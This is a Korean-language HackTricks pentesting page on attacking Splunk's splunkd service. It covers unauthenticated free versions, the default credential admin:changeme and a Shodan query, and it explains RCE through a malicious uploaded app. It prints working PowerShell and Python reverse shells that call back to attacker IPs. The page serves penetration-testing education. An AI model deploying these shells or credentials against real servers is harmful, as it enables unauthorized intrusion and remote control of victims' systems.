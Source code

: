# 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **기본 정보**

* 데이터 수집, 분석 및 시각화를 위한 로그 분석 도구
* 보안 모니터링 및 비즈니스 분석에 일반적으로 사용됨
* 기본 포트:
* 웹 서버: 8000
* Splunkd 서비스: 8089

### 취약점 벡터:

1. 무료 버전 악용

* 평가판 버전은 60일 후 자동으로 무료 버전으로 전환됨
* 무료 버전은 인증이 없음
* 관리되지 않을 경우 잠재적인 보안 위험
* 관리자가 보안 문제를 간과할 수 있음

2. 자격 증명 약점

* 이전 버전: 기본 자격 증명 `admin:changeme`
* 최신 버전: 설치 중 설정된 자격 증명
* 약한 비밀번호 사용 가능성 (예: `admin`, `Welcome`, `Password123`)

3. 원격 코드 실행 기회

* 여러 코드 실행 방법:
* 서버 측 Django 애플리케이션
* REST 엔드포인트
* 스크립트 입력
* 경고 스크립트
* 크로스 플랫폼 지원 (Windows/Linux)
* 스크립트 입력은 다음을 실행할 수 있음:
* Bash 스크립트
* PowerShell 스크립트
* 배치 스크립트

주요 악용 가능성:

* 민감한 데이터 저장
* 무료 버전의 인증 부족
* 잠재적인 원격 코드 실행을 위한 여러 벡터
* 시스템 손상을 위한 스크립트 입력 활용 가능성

### Shodan

* `Splunk build`

## RCE

### 사용자 정의 애플리케이션 만들기

Splunk는 사용자 정의 애플리케이션 배포를 통해 원격 코드 실행을 위한 정교한 방법을 제공하며, 크로스 플랫폼 스크립팅 기능을 활용합니다. 핵심 악용 기술은 Windows 및 Linux 시스템에서 리버스 셸을 실행할 수 있는 악성 애플리케이션을 만드는 것입니다.

사용자 정의 애플리케이션은 **Python, Batch, Bash 또는 PowerShell 스크립트**를 실행할 수 있습니다. 또한, **Splunk에는 Python이 설치되어 있으므로**, **Windows** 시스템에서도 Python 코드를 실행할 수 있습니다.

[**이 예제**](https://github.com/0xjpuff/reverse_shell_splunk)를 사용할 수 있으며, **`bin`**에는 [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) 및 [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1) 예제가 포함되어 있습니다. 또는 자신만의 것을 만들 수도 있습니다.

악용 과정은 플랫폼 전반에 걸쳐 일관된 방법론을 따릅니다:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
중요한 구성 파일 `inputs.conf`는 스크립트를 다음과 같이 활성화합니다:

* `disabled = 0` 설정
* 10초 실행 간격 구성
* 스크립트의 소스 유형 정의

배포는 간단합니다:

1. 악성 애플리케이션 패키지 생성
2. 공격 머신에서 리스너(Netcat/socat) 설정
3. Splunk의 인터페이스를 통해 애플리케이션 업로드
4. 업로드 시 자동 스크립트 실행 트리거

샘플 Windows PowerShell 리버스 셸:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
샘플 리눅스 파이썬 리버스 셸:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

다음 페이지에서는 이 서비스를 악용하여 권한을 상승시키고 지속성을 얻는 방법에 대한 설명을 찾을 수 있습니다:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
